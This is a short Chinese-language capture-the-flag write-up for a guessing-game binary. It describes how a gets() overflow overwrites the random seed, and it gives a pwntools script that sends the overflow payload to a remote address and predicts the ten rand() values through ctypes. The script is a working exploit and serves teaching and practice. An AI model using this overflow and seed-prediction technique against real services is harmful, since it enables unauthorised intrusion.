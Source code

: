 先checksec一下然后发现

Arch: amd64-64-little
RELRO: Partial RELRO
Stack: Canary found
NX: NX enabled
PIE: PIE enabled

这里启用了canary(栈保护)

用IDA64打开，然后反编译得到基本逻辑：首先从输入gets一个姓名，然后用种子初始化随机数发生器，対生成的随机数进行处理，然后再输入下一个整数，将随机数处理后的值与输入数值进行比较，如果10轮比较都相同则成功，随机调用sub_CE(),获得flag

查找V7的栈，发现

![img](./assets/1931211-20201006012355208-2012738685.png)

因此，只要栈溢出，将我们指定的值覆盖到seed的部分，然后借助ctypes调佣linux中c标准动态库libc.so.6,就可以破解伪随机数了

可以用ldd查看标准库

具体payload如下：

```python
from pwn import *
from ctypes import *
libc = cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
payload = b'a'*32 + p64(1)
p = remote("61.147.171.105", 51327)
libc.srand(1)
p.sendlineafter('name',payload)
for i in range(10):
    p.sendlineafter('number',str(libc.rand()%6 + 1))
p.interactive()

```

